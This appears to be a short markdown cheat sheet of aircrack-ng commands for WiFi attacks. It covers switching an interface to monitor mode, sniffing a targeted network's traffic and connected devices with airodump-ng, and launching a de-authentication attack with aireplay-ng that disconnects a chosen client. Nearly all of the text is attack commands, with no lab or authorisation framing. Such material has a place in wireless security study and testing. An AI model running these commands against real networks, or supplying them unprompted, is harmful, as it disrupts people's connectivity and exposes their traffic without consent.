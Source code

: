 **Change WIFI to Monitor Mode**

```sh
sudo ifconfig wlan0 down
```

```sh 
sudo airmon-ng check kill
```

```sh
sudo iwconfig wlan0 mode monitor
```

restart the interface
```sh
sudo ifconfig wlan0 up
```

check it was successful
```sh
iwconfig
```
- Should display: `Mode:Monitor`

---

**Capture Packets from WIFI**

Start capturing packets
```sh
sudo airodump-ng wlan0
```
- CTL+C to stop

Sniff specific network using details from the above command
```sh
sudo airodump-ng --bssid 00:11:22:33:44:55 --channel 11 --write <name of the file to save> wlan0
```
- This will show all of the devices connected to the specific target network
- Creates new files that we have captured in the pwd

View data in wireshark
```sh
wireshark <name of the file>-01.cap
```
- The files will be encrypted 
- Can show you what the devices are, for example the source might be Samsung

---

**De-Authentication Attack**

```sh
sudo aireplay-ng --deauth 1000000 -a 00:11:22:33:44:55 -c 00:11:22:33:44:A1 wlan0
```
- deauth - how long you want to disconnect the user
- -a - target router
- -c - mac address of the client (under the station label)
- **BSSID** is the MAC address of the access point
